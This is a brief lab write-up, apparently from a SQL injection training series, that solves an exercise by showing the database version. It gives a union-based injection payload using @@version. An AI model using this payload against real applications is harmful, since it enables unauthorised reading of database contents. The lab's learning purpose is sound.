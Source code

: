 ### Eight Exercise 👆


![problem.PNG](/assets/SQLi/Eight/problem.PNG)


#### **To do**

```
To solve the lab, display the database version string. 
```


1. Use `@@version`
```sql
' union select NULL, @@version-- -
```


**Output**
![version-PNG](/assets/SQLi/Eight/version.PNG)